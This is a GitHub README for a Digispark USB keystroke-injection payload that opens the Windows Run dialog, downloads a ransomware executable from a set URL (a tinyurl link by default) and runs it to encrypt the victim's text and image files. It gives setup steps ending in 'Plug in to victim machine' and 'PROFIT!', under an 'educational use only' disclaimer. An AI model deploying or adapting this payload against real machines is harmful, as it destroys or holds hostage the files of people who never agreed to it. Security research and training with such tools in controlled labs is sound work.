 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Ransomware
For more details, see our [documentations](/documentation/conops_ransomware.md).

Opens up Run in Windows.   
Using keystroke injections:   
- Downloads the ransomware executable, from user defined location.   
- Executes it, and the executable encrypts .txt, .jpg, .jpeg, .png files in the directory, it is downloaded to.

Check out more detailed usage of the [Ransomware in our project.](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware)

## How to use:

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Define:
	-  `DownloadFile('URL_WHERE_TO_DOWNLOAD'`
	**NOTE: As is (`https://tinyurl.com/5e8yp8mf`), it downloads it from [here](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware/Python%20app)**   
	
	- Path, where to download and what to execute (both must be the same):
		- `$env:UserProfile/PATH_TO_THE/SOMETHING.exe\\\`
	- Working Dir:
		- `$env:UserProfile//PATH_TO_THE\\\`
- Upload to Digispark
- Plug in to victim machine
- **PROFIT!**

---
**Note:**  
Folder:
- [old](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_ransomware/old)
    - Older draft to initially getting the ransomware with Digispark to work